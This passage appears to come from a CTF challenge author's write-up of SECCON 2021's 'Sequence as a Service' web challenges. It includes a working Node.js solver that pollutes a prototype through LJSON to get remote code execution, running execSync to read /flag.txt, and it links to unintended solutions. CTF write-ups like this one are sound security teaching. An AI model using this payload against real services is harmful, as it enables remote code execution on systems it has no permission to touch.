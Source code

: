 My solution is to gain RCE by injecting a function into the prototype of `lib`.

```javascript
// solver/index.js (comments are added)

/* snip */

// Reads `/flag.txt`
const code =
  'return global.process.mainModule.constructor._load("child_process").execSync("cat /flag.txt").toString()';

let evilSequence = LJSON.stringify(($, n) =>
  $(
    ",",
    // Makes the prototype of `$("self")` into `Function.prototype`
    $("set", $("self"), "__proto__", $),
    // Executes `code` => RCE
    $("constructor", code)()
  )
);

const params = new URLSearchParams({
  sequence: evilSequence,
  n: 0,
});

const main = async () => {
  const text = await (
    await fetch(`${SECCON_URL}/api/getValue?${params}`)
  ).text();
  console.log(text);
};
main();
```

### Unintended Solutions

**[ `$("self").__proto__ = require('child_process')` ]**

- https://nanimokangaeteinai.hateblo.jp/entry/2021/12/14/223037#Web-205-Sequence-as-a-Service-1-20-solves

**[ Using a bug in the parser of LJSON ]**

- https://org.anize.rs/SECCON-2021/web/sequence_as_a_service

## Sequence as a Service 2

- 19 team solved / 210 pt
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202112_SECCON_CTF_2021/web/sequence-as-a-service-2

Description:
> NEW FEATURE: You can get values from two sequences at the same time! Go here.


[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/